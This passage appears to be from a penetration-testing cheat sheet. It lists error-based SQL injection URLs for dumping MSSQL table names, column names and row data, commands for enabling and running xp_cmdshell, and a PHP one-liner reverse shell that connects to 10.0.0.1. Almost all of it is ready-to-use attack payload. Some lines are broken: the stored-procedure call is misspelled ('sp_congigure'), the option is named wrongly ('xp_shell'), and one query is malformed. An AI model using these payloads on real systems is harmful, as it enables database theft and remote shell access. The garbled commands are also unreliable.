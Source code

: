 
`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`

#### Columns within a table

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> remember to change **dbname** and **tablename** accordingly with the given situation
> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`

#### Actual data

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`

#### Shell commands

`EXEC master..xp_cmdshell <command>`

> you need yo be 'sa' user

#### Enabling shell commands

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`

### Jenkins

##

# Post Exploitation

## Reverse Shell

### PHP Reverse Shell

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
